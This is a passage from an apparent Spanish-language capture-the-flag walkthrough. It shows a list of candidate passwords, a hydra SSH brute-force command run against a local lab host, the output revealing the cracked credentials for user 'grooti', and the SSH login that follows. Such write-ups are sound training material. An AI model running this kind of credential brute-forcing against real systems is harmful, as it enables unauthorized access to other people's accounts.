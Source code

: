 ```
dragon2024
mydogrex
grootlove
Galaxy42
!P@ssword!
megasecret
YOLOgroot
P@ss1234
monkeybanana
YOgrootRULEZ
YoSoYgRoOt
finalchance
1qaz2wsx
batman2025
rootroot
hello123
```

Vemos que son una serie de contraseñas para algun usuario suponemos del sistema, vamos a probarla con `hydra` por `SSH` a ver si hay suerte, con `2` usuarios en este caso `grooti` y `rocket`.

> users.txt

```
grooti
rocket
```

### Hydra (grooti)

```shell
hydra -L users.txt -P password16.txt ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-28 07:26:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 68 login tries (l:2/p:34), ~2 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: grooti   password: YoSoYgRoOt
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-28 07:26:50
```

Veremos que ha funcionado, por lo que vamos a conectarnos por `SSH` con dichas credenciales.

```shell
ssh grooti@<IP>
```
